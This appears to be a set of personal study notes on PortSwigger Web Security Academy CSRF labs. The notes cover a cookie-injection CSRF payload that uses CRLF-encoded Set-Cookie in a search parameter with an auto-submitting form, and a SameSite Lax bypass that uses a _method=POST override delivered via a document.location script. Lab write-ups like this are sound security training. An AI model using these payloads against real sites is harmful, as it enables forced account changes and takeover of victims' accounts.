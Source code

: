 - we will inject to cookie header trough the search set cookie value which will be equal to the csrf token (first tab)
![[Pasted image 20240922013015.png]]

- HTML payload (form action= https://HOST/POST (change email request - first tab) | 
               img src= https://HOST/POST(injected header - second tab) )
```
<html>
    <body>
        <h1>Hello World!</h1>
        <form action="https://0a25003904014c148065ad2c00ae00af.web-security-academy.net/my-account/change-email" method="post">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="hacked">
        </form>

        <img src="https://0a25003904014c148065ad2c00ae00af.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrf=hacked%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
</html>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```

## **7. SameSite Lax bypass via method override**

##### Study the change email function
1. In Burp's browser, log in to your own account and change your email address.
2. In Burp, go to the **Proxy > HTTP history** tab.
3. Study the `POST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass the SameSite cookie restrictions.
4. Look at the response to your `POST /login` request. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.
5. Recognize that this means the session cookie will be sent in cross-site `GET` requests, as long as they involve a top-level navigation.

##### Bypass the SameSite restrictions
1. Send the `POST /my-account/change-email` request to Burp Repeater.
2. In Burp Repeater, right-click on the request and select **Change request method**. Burp automatically generates an equivalent `GET` request.
3. Send the request. Observe that the endpoint only allows `POST` requests.
4. Try overriding the method by adding the `_method` parameter to the query string:
    `GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1`
5. Send the request. Observe that this seems to have been accepted by the server.
6. In the browser, go to your account page and confirm that your email address has changed.

##### Craft an exploit
1. In the browser, go to the exploit server.
2. In the **Body** section, create an HTML/JavaScript payload that induces the viewer's browser to issue the malicious `GET` request. Remember that this must cause a top-level navigation in order for the session cookie to be included. The following is one possible approach:
    `<script> document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST"; </script>`
3. Store and view the exploit yourself. Confirm that this has successfully changed your email address on the target site.
4. Change the email address in your exploit so that it doesn't match your own & deliver the exploit to the victim.
